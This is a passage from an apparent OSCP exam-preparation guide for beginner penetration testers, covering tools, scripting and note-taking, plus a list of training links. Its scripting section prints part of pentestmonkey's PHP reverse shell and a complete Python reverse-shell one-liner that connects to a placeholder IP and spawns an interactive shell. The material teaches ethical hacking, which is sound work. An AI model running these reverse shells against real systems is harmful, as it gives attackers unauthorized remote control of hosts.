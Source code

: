 


### 1.2 Tools



Most of the tools you'll require are already installed on Kali. Cheers :) If you find that you need anything else, you can use `apt-get install  <toolname>`.



### 1.3 Scripting



You do not require any coding knowledge prior to starting the course. Understanding Python is an advantage, but not needed. However, you will need to have the basic logical ability to decipher a piece of code and make minor changes accordingly.



By basic I mean this:

~~~php
# a few lines from pentestmonkey's php reverse shell

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
~~~

How do you think you can change the IP address and port number you want the reverse shell to connect back to? 



~~~bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
~~~

What about this one?



Yes that sort of basic. Some are harder than this but it's not too far off.



### 1.4 Notetaking (Study notes)



Taking notes is something every student needs to do. My recommendation is to use an application of your choice that supports the following:



[1]: https://overthewire.org/wargames/bandit/
[2]: https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA
[3]: https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=1839402159
[4]: https://www.hackthebox.eu
[5]: https:/www.vulnhub.com
[6]: https://www.udemy.com/course/practical-ethical-hacking/learn/
[7]: https://www.youtube.com/watch?v=qSnPayW6F7U&amp;list=PLLKT__MCUeix3O0DPbmuaRuR_4Hxo4m3G
[8]: https://www.immunityinc.com/products/debugger/
[9]: http://www.thegreycorner.com/2010/12/introducing-vulnserver.html
[10]: https://www.vulnhub.com/entry/brainpan-1,51/
[11]: https://github.com/justinsteven/dostackbufferoverflowgood
[12]: https://github.com/xapax/oscp/blob/master/templates/linux-template.md
[13]: https://github.com/21y4d/nmapAutomator
[14]: https://github.com/Tib3rius/AutoRecon
[15]: https://github.com/diego-treitos/linux-smart-enumeration
[16]: https://github.com/rebootuser/LinEnum
[17]: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
[18]: https://exploit-db.com
[19]: https://www.markdownguide.org/cheat-sheet/
[20]: https://typora.io/
[21]: https://theme.typora.io/
[22]: https://github.com/Dreamscent/Dreamscent.github.io/blob/master/_posts/2020-06-01-From-Zero-to-OSCP.md
[23]: https://raw.githubusercontent.com/Dreamscent/Dreamscent.github.io/master/_posts/2020-06-01-From-Zero-to-OSCP.md
[24]: https://dreamscent.github.io/offsec/2020/03/16/My-OSCP-Journey/
[25]: https://www.elearnsecurity.com/course/penetration_testing_student/
[26]: https://www.ethicalhacker.net/
[27]: https://www.elearnsecurity.com/certification/ejpt/
[28]: https://dreamscent.github.io/guides/2020/06/03/Beginner-BOF-Visualised/